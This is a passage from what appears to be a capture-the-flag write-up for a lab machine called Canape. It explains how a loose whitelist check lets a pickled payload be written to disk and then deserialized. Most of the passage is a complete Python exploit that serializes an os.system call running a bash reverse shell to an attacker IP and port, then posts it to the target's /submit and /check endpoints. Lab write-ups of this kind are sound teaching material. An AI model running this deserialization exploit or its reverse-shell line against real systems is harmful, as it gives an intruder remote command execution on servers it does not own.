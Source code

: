 
To write this payload to a file, we'll need to pass the character check in `/submit`. The `character` parameter needs to contain an approved name **anywhere in the string**! 
```python
WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]
# ...
try:
	char = request.form["character"]
	quote = request.form["quote"]
	if not char or not quote:
		error = True
	elif not any(c.lower() in char.lower() for c in WHITELIST):
		error = True
	else:
		# TODO - Pickle into dictionary instead, `check` is ready
		p_id = md5(char + quote).hexdigest()
		outfile = open("/tmp/" + p_id + ".p", "wb")
		outfile.write(char + quote)
		outfile.close()
		success = True
except Exception as ex:
	error = True
```
Placing the character's name **anywhere in our command** will pass the check

Here's the final exploit code
```python
import cPickle, os
from hashlib import md5
import requests

# malicious obj to deserialize
ATTACKER_IP = '10.10.14.17'
PORT = 4444
character = 'homer'
cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/{}/{} 0>&1';#{};".format(ATTACKER_IP, PORT, character)
class RCE(object):
	def __reduce__(self):
		return (os.system, (cmd,))

payload = cPickle.dumps(RCE())
char = payload[:-1]
quote = payload[-1:]

payload_id = md5(char + quote).hexdigest()
submit_data = {'character': char, 'quote': quote}
check_data = {'id': payload_id}

# profit
base_url = 'http://canape.htb'
requests.post('{}/submit'.format(base_url), data=submit_data)
requests.post('{}/check'.format(base_url), data=check_data)
```
